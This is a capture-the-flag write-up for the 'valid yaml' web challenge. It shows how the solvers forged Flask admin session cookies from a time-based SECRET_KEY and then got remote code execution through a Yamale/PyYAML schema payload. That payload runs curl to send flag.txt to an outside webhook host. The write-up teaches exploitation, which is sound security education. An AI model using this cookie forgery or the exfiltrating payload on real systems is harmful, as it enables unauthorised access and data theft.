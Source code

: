# Web: valid yaml
solvers: [L3d](https://github.com/imL3d), [ProfessorZak](https://github.com//ProfessorZak)  
writeup-writer: [L3d](https://github.com/imL3d)  

**Description:**
> Yet Another Markup Language, YAML, YAML Ain't Markup Language, Yamale

**files (copy):** [src.zip](files/src.zip)  
**screenshot:** [homepage](images/validyaml.png)  

In this challenge we receive a site and it's source that allows us to validate our yaml input to a preestablished schema. We need to exploit this site and get user access to it.

## Solution❄️
The source code for this website in python via flask, using the Yamale library in order to validate the yaml input. The first things that pops to mind the the [PyYaml Deserialization](https://book.hacktricks.xyz/pentesting-web/deserialization/python-yaml-deserialization) that can allow us to get and RCE to the host machine? Could it be that the library used here have the same issue?  
Upon further examination, we find out that indeed `Yamale` runs on `PyYaml` and have the same issue, especially in the version that is used in the site - take a look at this [github issue + POC](https://github.com/23andMe/Yamale/issues/167).  
Great! we can just input this as the input... But wait. The exploit requires us to have influence on the schema and not just the input, and that is taken from the SQL database that we yet have control over:
```python
schema = Schemas.query.filter_by(id=schema_id).first_or_404() # If we can add our own schema... bingo!
schema = yamale.make_schema(content=schema.content) 
data = yamale.make_data(content=content)
```
So we need to get admin access. When digging further into the server code we see that we receive the formula for the [SECRET_KEY](https://flask.palletsprojects.com/en/2.3.x/config/#SECRET_KEY), which is pretty simple:
 ```python
SECRET_KEY = hashlib.md5(datetime.datetime.utcnow().strftime("%d/%m/%Y %H:%M").encode()).hexdigest()
```
This can allow us to bake our own `admin cookies`👨‍🍳, which in turn will allow us to upload our own schema, that can include the Python Deserialization payload!  
The code to generate the admin cookies (this needs to run on the same minute that the server deployed. If we don't know such time, we can just brute force for it):  
```python
""" Code to generate the admin cookies in the same way as the server """

from flask import Flask, session
from flask.sessions import SecureCookieSessionInterface
import datetime
import hashlib

SECRET_KEY = hashlib.md5(
        datetime.datetime.utcnow().strftime("%d/%m/%Y %H:%M").encode()
    ).hexdigest()

app = Flask("example")
app.secret_key = SECRET_KEY
session_serializer = SecureCookieSessionInterface().get_signing_serializer(app)
    
@app.route("/")
def test():
    session["id"] = 1 # This is the ID of the user (taken from the server source code)
    session_cookie = session_serializer.dumps(dict(session))
    return SECRET_KEY

if __name__ == "__main__":
    app.run()
```
After logging in as the admin, it's just as simple as uploading a new schema via the convenient page created for us by the site. The schema uploaded:  
```yaml
name: str([x.__init__.__globals__["sys"].modules["os"].system("curl -X POST --data-binary @flag.txt https://webhook.site/uniqueid") for x in ''.__class__.__base__.__subclasses__() if "_ModuleLock" == x.__name__])
age: int(max=200)
height: num()
awesome: bool()
```
And we get the flag: `flag{not_even_apache_can_stop_the_mighty_eval}`